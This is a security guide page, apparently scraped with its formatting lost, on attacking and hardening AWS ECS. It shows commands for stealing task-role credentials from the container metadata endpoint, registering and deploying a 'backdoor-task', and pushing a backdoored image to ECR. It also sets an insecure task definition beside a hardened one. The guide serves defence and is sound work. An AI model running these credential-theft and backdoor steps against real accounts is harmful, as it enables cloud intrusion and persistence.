

Elastic Container Service (ECS) orchestrates Docker containers on AWS. Task roles provide AWS credentials to containers. Privileged containers and metadata endpoints are key attack vectors.
Containers run on EC2 instances you manage. Full control over underlying infrastructure. ECS agent manages container placement and lifecycle.
Serverless container execution. AWS manages infrastructure. More isolated but still vulnerable to task role abuse and metadata attacks.
ECS container compromise leads to task role credential theft. Privileged containers enable escape to host. ECR image poisoning can backdoor entire deployments.
aws ecs list-clustersaws ecs list-services --cluster my-clusteraws ecs describe-task-definition \\
--task-definition my-taskcurl http://169.254.170.2\\
$AWS_CONTAINER_CREDENTIALS_RELATIVE_URIaws ecs register-task-definition \\
--cli-input-json file://backdoor-task.jsonaws ecs update-service \\
--cluster my-cluster \\
--service my-service \\
--task-definition backdoor-task:1aws ecs run-task \\
--cluster my-cluster \\
--task-definition backdoor-task \\
--launch-type FARGATEcurl http://169.254.170.2/v4/metadatacurl http://169.254.170.2\\
$AWS_CONTAINER_CREDENTIALS_RELATIVE_URIdocker tag backdoor:latest \\
123456789012.dkr.ecr.us-east-1.amazonaws.com/app:latest
docker push ...{
"taskRoleArn": "arn:aws:iam::123456789012:role/AdminRole",
"containerDefinitions": [{
"privileged": true,
"user": "root",
"environment": [
{"name": "DB_PASSWORD", "value": "hardcoded123"}
]
}]
}
// Privileged, root, hardcoded secretsPrivileged container, root user, hardcoded secrets - full compromise
{
"taskRoleArn": "arn:aws:iam::123456789012:role/LeastPrivilege",
"containerDefinitions": [{
"privileged": false,
"user": "1000:1000",
"readonlyRootFilesystem": true,
"secrets": [
{"name": "DB_PASSWORD",
"valueFrom": "arn:aws:secretsmanager:..."}
]
}]
}Non-privileged, non-root, secrets from Secrets Manager
Scope task roles to exact permissions needed for the workload.
"Resource": "arn:aws:s3:::app-bucket/data/*"Never run containers as privileged. Use readonlyRootFilesystem.
"privileged": false,
"readonlyRootFilesystem": trueNever hardcode secrets in task definitions or environment variables.
"secrets": [{"name": "DB_PASS",
"valueFrom": "arn:aws:secretsmanager:..."}]Scan images for vulnerabilities on push to ECR.
aws ecr put-image-scanning-configuration \\
--repository-name app \\
--image-scanning-configuration scanOnPush=trueIsolate task networking with dedicated ENIs.
"networkMode": "awsvpc"Monitor container performance and security metrics.
aws ecs update-cluster-settings \\
--cluster my-cluster \\
--settings name=containerInsights,value=enabled